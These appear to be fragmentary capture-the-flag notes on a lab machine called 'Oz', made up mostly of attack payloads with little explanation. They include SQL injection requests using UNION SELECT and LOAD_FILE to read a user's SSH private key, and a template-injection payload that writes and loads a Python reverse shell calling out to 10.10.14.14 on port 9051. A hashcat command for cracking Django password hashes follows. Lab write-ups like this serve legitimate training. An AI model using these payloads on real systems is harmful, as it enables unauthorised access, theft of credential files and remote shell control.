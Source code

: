 union select burp

GET /users/chicken'%20union%20select%20all%20user()--%20- HTTP/1.1

{"username":"dorthi@10.100.10.6"}

LOAD_FILE

GET /users/chicken'%20union%20select%20all%20LOAD_FILE('home/')--%20- HTTP/1.1

importing the binascii library to convert the text into a hex format

python3 

>>> import binascii
>>> binascii.hexlify("/home/dorthi/.ssh/id_rsa")
>>> Traceback (most recent call last):
>>>   File "<stdin>", line 1, in <module>
>>> TypeError: a bytes-like object is required, not 'str'
>>> binascii.hexlify(b"/home/dorthi/.ssh/id_rsa")
>>> b'2f686f6d652f646f727468692f2e7373682f69645f727361'
>>> exit

burp getting usershells

python running the backend because when you run 7*'7' it prints 7 7's

![sqlinjection3-url4](https://chickenpwny.github.io/images/oz/sqlinjection3-url4.PNG)

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections

Load

name=chicken&desc={{ config.from_pyfile('/tmp/chicken.cfg') }}  

write

name=chicken&desc={{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/chicken.cfg', 'w').write('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",9051));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);') }} 

read

name=chicken&desc={{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/chicken.cfg').read() }}



GET /users/chicken'%20union%20select%20all%20LOAD_FILE(0x2f686f6d652f646f727468692f2e7373682f69645f727361)--%20-

HASHCAT

hashcat -a 0 -m 10000 clean.hashes /opt/htb/wordlist/rockyou.txt

 Django (PBKDF2-SHA256) 

10000
